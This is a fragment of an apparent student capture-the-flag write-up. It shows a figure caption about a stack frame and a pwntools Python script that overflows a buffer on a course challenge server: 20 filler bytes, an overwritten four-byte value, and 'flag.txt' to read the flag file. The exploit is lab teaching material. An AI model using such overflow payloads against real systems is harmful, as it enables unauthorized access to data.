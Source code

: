   <img src="/images/week5/challenge2_4.png" alt="my alt text"/>
  <figcaption>Figure 5. main() Stack Frame before the exploit execution</figcaption>
</figure>

The python exploit used was the following:

```python=
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b"1" * 20 + b"\x22\x21\xfc\xfe" + b"flag.txt")
r.interactive()
```
